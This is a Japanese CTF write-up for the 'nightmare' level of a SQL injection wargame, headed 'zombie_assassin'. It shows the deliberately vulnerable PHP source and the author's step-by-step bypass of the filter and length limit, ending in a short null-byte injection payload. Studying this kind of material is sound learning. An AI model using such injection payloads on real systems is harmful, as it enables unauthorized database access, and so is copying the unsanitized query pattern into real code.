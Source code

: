 # zombie_assassin

## answer

```
https://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw=%27)=0;%00
```

## problem

```
query : select id from prob_nightmare where pw=('1') and id!='admin'

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw=1```とかで試してみる。

```query : select id from prob_nightmare where pw=('1') and id!='admin'```となった。

コードを読んでいく。

```
if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~");
if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
```

フィルターはきつめ。さらに6文字以上を許していない。

```
$query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
```

idがadminではない人のパスワードが一致したときにidに値が入る。

```
if($result['id']) solve("nightmare"); 
```

クリア条件としてはクエリを真にすればいいっぽい。
ちなみにフィルターはコメントアウト```#```を禁止している。
```'```はいける。

閉じてみよう。

```
?pw=')

query : select id from prob_nightmare where pw=('')') and id!='admin'
```

閉じれている気がする。
これをふまえて、以下で試してみる。

```
?pw=')or1;

query : select id from prob_nightmare where pw=('')or1;') and id!='admin'
```

なんかダメっぽい。

コメントアウトができないからだと思っています。

コメントアウトは%00をはさむ方法でできるか試してみる。

```
?pw=')or1;%00

No Hack ~_~
```

7文字使ってしまっているのか...文字数制限が厳しい...

ここでイコールが禁じられていないことを利用して、こんな感じのクエリを作ることを考えてみる。

```
query : select id from prob_nightmare where pw=('')=XXX%00 and id!='admin'
```

%00以降はコメントアウトされている。
pw=('')の結果とXXXがイコールなら、このクエリは真を返す。
もちろん使うDBによるが、pw=('')自体の文はAuto Castingにより値をもつ。0かな。

できあがったスクリプトは以下。

```
?pw=')=0;%00
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

